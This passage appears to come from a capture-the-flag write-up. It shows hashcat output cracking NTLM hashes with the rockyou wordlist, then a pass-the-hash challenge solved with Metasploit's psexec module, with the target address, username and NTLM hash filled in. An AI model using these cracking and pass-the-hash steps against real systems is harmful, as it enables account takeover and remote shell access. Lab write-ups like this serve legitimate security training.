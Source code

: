 ```
Watchdog: Temperature abort trigger disabled
Watchdog: Temperature retain trigger disabled

31d6cfe0d16ae931b73c59d7e0c089c0:                         
INFO: Removed 1 hash found in potfile

Cache-hit dictionary stats /Users/Scream/hashcat/rockyou.txt: 139921497 bytes, 14343296 words, 14343296 keyspace

b963c57010f218edc2cc3c229b5e4d0f:iloveyou                 

Session..........: hashcat
Status...........: Cracked
Hash.Type........: NTLM
Hash.Target......: hashes.txt
Time.Started.....: Fri Nov  3 20:56:30 2017 (1 sec)
Time.Estimated...: Fri Nov  3 20:56:31 2017 (0 secs)
Input.Base.......: File (/Users/Scream/hashcat/rockyou.txt)
Input.Queue......: 1/1 (100.00%)
Speed.Dev.#2.....: 84737.5 kH/s (9.39ms)
Recovered........: 2/2 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1310794/14343296 (9.14%)
Rejected.........: 74/1310794 (0.01%)
Restore.Point....: 0/14343296 (0.00%)
Candidates.#2....: 123456 -> saylor010801

Started: Fri Nov  3 20:56:27 2017
Stopped: Fri Nov  3 20:56:32 2017
```
### PTH
>Sadly I was too lazy to copy down the desciption for this one. It was a pass the hash challenge we were provided with a SAM hash for a user on the windows machine. You simply copy out the user hash and use metasploit's psexec module to get a shell.

```bash
msf > use windows/smb/psexec
msf exploit(psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOST                 172.28.5.25                                                        yes       The target address
   RPORT                 445                                                                yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                 ADMIN$                                                             yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                                  no        The Windows domain to use for authentication
   SMBPass               aad3b435b51404eeaad3b435b51404ee:3fb176acb7d718b0cf5ca4d033d3f1c2  no        The password for the specified username
   SMBUser               PTH                                                                no        The username to authenticate as
```